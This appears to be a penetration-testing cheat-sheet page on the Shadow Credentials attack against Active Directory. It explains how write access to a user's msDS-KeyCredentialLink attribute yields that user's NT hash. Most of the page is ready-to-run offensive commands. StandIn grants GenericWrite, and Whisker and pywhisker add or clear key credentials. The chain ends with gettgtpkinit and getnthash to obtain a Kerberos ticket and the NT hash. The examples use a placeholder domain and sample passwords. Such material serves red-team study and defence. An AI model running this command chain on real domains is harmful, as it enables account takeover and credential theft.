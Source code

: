 # Key Credentials Abuse

> "...if you can write to the `msDS-KeyCredentialLink` property of a user, you can retrieve the NT hash of that user." (Elad Shamir, [ref](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab))

That makes `GenericWrite` on a user effectively equal to DCSync right on that user.

{% hint style="info" %}
Remember that `WriteDacl` != `GenericWrite`, so in order to modify `msDS-KeyCredentialLink`, obtain necessary privileges first. For example, using StandIn:

```
Cmd > Rubeus.exe createnetonly /program:cmd.exe /show /ticket:ticket.kirbi
Cmd > StandIn.exe --domain megacorp.local --object "samaccountname=snovvcrash" --grant "MEGACORP\jdoe" --type genericwrite
```
{% endhint %}




## DSInternals

* [https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Get-ADKeyCredential.md](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Get-ADKeyCredential.md)




## Whisker

* [https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
* [https://github.com/eladshamir/Whisker](https://github.com/eladshamir/Whisker)

List all the values of the the `msDS-KeyCredentialLink` attribute of a target object:

```
Cmd > .\Whisker.exe list /target:ws01$ /domain:megacorp.local /dc:DC1.megacorp.local
```

Add a new value to the `msDS-KeyCredentialLink` attribute of a target object:

```
Cmd > .\Whisker.exe add /target:ws01$ /domain:megacorp.local /dc:DC1.megacorp.local /path:C:\Temp\cert.pfx /password:Passw0rd!
```

Remove a value from the `msDS-KeyCredentialLink` attribute of a target object:

```
Cmd > .\Whisker.exe remove /target:ws01$ /domain:megacorp.local /dc:DC1.megacorp.local /remove:00ff00ff-00ff-00ff-00ff-00ff00ff00ff
```

Clear all the values of the the `msDS-KeyCredentialLink` attribute of a target object:

```
Cmd > .\Whisker.exe clear /target:ws01$ /domain:megacorp.local /dc:DC1.megacorp.local 
```




## pywhisker

* [https://github.com/ShutdownRepo/pywhisker](https://github.com/ShutdownRepo/pywhisker)
* [https://podalirius.net/en/articles/parsing-the-msds-keycredentiallink-value-for-shadowcredentials-attack/](https://podalirius.net/en/articles/parsing-the-msds-keycredentiallink-value-for-shadowcredentials-attack/)

```
$ python3 pywhisker.py -d megacorp.local -u svc_mssql -p 'Passw0rd!' --target sqltest --action list
$ python3 pywhisker.py -d megacorp.local -u svc_mssql -p 'Passw0rd!' --target sqltest --action add -f sqltest_cert
$ python3 pywhisker.py -d megacorp.local -u svc_mssql -p 'Passw0rd!' --target sqltest --action list
$ python3 pywhisker.py -d megacorp.local -u svc_mssql -p 'Passw0rd!' --target sqltest --action clear
$ python3 gettgtpkinit.py megacorp.local/sqltest -cert-pfx ~/tools/pywhisker/sqltest_cert.pfx -pfx-pass 3Dc3Er0rst2e9J1yRtjh sqltest.ccache
$ KRB5CCNAME=sqltest.ccache python3 getnthash.py megacorp.local/sqltest -key 00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff
```
